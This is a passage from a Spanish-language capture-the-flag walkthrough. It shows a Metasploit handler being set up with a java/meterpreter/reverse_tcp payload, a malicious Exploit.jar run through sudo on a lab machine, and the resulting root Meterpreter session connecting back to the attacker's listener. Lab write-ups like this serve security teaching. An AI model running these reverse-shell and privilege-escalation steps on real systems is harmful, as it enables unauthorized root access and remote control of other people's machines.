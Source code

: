 ```shell
msfconsole -q -r listener.rc
```

Una vez echo todo lo anterior y estando a la escucha en la maquina victima ejeuctaremos el archivo como `root`:

```shell
sudo /usr/bin/java -jar Exploit.jar
```

Y ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
[*] Processing listener.rc for ERB directives.
resource (listener.rc)> msfconsole
[-] msfconsole cannot be run inside msfconsole
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
resource (listener.rc)> set LHOST 192.168.5.186
LHOST => 192.168.5.186
resource (listener.rc)> set LPORT 7755
LPORT => 7755
resource (listener.rc)> exploit
[*] Started reverse TCP handler on 192.168.5.186:7755 
[*] Sending stage (57971 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.5.186:7755 -> 172.17.0.2:38156) at 2025-01-28 16:07:23 -0500

meterpreter > getuid
Server username: root
```

Vemos que ya seremos `root`, por lo que habremos terminado la maquina.
